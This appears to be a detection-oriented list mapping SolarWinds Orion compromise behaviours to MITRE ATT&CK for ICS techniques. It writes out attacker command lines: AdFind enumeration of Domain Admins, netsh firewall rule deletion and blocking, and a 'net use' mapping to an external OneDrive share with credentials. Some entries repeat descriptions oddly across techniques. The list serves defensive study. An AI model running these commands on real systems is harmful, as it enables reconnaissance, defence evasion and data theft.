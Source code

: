 - T0834 - Native API: Executable Calls Binary on Local Host: Executable Calls Dynamic Link Library (DLL): SolarWinds.BusinessLayerHost.exe Calls SolarWinds.Orion.Core.BusinessLayer.dll

- T0849 - Masquerading: Anomalous Network Traffic: From Local Host to External Server: From Local Host with Security Information and Event Management (SIEM) Software to External Server: SolarWinds Orion Platform: Domain Name System (DNS) Over UDP Port 53: To Anomalous Domain: Anomalous Canonical Name (CNAME) Domain Name System (DNS) Requests

- T0853 - Scripting: Anomalous Command Issued Via Command-Line: Powershell Command: [renamed-adfind].exe -h [machine] -f (name=”Domain Admins”) member -list | [renamed-adfind].exe -h [machine] -f objectcategory=* > .\[folder]\[file].[log|txt]

- T0859 - Valid Accounts: Anomalous Network Traffic: From External Server to Local Host: From External Server to Local Host with Security Information and Event Management (SIEM) Software: SolarWinds Orion Platform: Remote Procedure Call (RPC) Over TCP Port 135

- T0862 - Supply Chain Compromise: Anomalous Network Traffic: From External Server to Local Host: From External Server to Local Host with Security Information and Event Management (SIEM) Software: SolarWinds Orion Platform: Up to Two Weeks After Executing Installer Patch File: CORE-2019.4.5220.20574-SolarWinds-Core-v2019.4.5220-Hotfix5.msp

- T0863 - User Execution: Anomalous Network Traffic: From External Server to Local Host: From External Server to Local Host with Security Information and Event Management (SIEM) Software: SolarWinds Orion Platform: Up to Two Weeks After Executing Installer Patch File: CORE-2019.4.5220.20574-SolarWinds-Core-v2019.4.5220-Hotfix5.msp

- T0867 - Lateral Tool Transfer: Anomalous Network Traffic: From Local Host to External Server: From Local Host with Security Information and Event Management (SIEM) Software to External Server: SolarWinds Orion Platform: Hypertext Transfer Protocol (HTTP) Over TCP Port 80

- T0869 - Standard Application Layer Protocol: Anomalous Network Traffic: From Local Host to External Server: From Local Host with Security Information and Event Management (SIEM) Software to External Server: SolarWinds Orion Platform: Domain Name System (DNS) Over UDP Port 53: To Anomalous Domain: Anomalous Canonical Name (CNAME) Domain Name System (DNS) Requests

- T0871 - Execution through API: Anomalous Network Traffic: From Local Host to External Server: From Local Host with Security Information and Event Management (SIEM) Software to External Server: SolarWinds Orion Platform: Over TCP Port 17777: Executable Making Calls to Application Programmatic Interface (API): SolarWinds.BusinessLayerHost.exe Calls SolarWinds.CredentialsSolarWinds.Credentials.Orion.WebApi.exe

- T0872 - Indicator Removal on Host: Anomalous Command Issued Via Command-Line: netsh advfirewall firewall delete rule

- T0881 - Service Stop: Anomalous Command Issued Via Command-Line: netsh advfirewall firewall add rule name=”[rulename1]” protocol=UDP dir=out localport=137 action=block

- T0882 - Theft of Operational Information: Anomalous Command Issued Via Command-Line: "Net use [drive]: https://d.docs.live.net/[user -id] /u:[username] [password]"

- T0885 - Commonly Used Port: Anomalous Network Traffic: From Local Host to External Server: From Local Host with Security Information and Event Management (SIEM) Software to External Server: SolarWinds Orion Platform: Domain Name System (DNS) Over UDP Port 53: To Anomalous Domain: Anomalous Canonical Name (CNAME) Domain Name System (DNS) Requests

- T0888 - Remote System Information Discovery: Anomalous Command Issued Via Command-Line: [renamed-adfind].exe -h [machine] -f (name=”Domain Admins”) member -list |
